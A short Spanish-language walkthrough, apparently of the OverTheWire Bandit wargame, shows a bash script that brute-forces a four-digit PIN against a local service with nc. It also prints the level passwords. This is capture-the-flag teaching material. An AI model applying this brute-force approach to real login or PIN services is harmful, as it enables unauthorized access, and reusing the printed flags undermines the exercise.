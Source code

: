 Comenzamos creando un script en una carpeta temporal

```bash
$ cd $(mktemp -d)
$ vim cracker.sh
```

Nuestro script escribirá a stdout todas las posibles combinaciones
```bash
#!/bin/bash

pass=VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
for i in {0000..9999}; do
        echo $pass $i;
done
```

Luego le damos permisos de ejecución, y enviamos el resultado de su ejecución a
`nc`. Para evitar que se impriman muchos mensajes de error, utilizamos `uniq`.

```bash
$ chmod +x cracker.sh
$ ./cracker.sh | nc localhost 30002 -v | uniq
...
...
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```

